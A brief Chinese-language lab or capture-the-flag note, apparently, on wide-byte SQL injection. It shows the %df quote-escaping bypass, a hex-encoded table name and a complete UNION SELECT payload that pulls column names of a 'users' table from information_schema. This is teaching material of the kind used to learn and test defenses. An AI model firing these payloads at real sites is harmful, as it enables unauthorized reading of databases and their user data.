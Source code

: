 宽字节注入。

测试单双引号，括号都无报错。



目测为宽字节注入。



```
?id=99%df'  用%df来绕过
```



 users 用16进制编码

```
0x7573657273
```



payload

```
?id=99%df%27union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=database()%20and%20table_name=0x7573657273--+
```

